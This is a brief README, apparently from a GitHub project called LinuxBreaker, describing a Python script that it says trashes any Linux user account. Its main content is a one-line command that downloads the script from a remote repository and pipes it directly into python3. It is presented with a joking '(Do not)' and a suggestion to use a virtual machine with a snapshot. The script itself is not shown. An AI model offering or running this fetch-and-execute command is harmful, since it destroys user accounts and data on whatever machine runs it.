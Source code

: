 # LinuxBreaker
Trashes any user account in Linux*

\*Tested on various accounts on Ubuntu

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Try it out on a virtual machine. Make sure you have a recent snapshot.

*watch_linuxbreaker.py* requires pip and python3. *linuxbreaker.py* only requires python3.
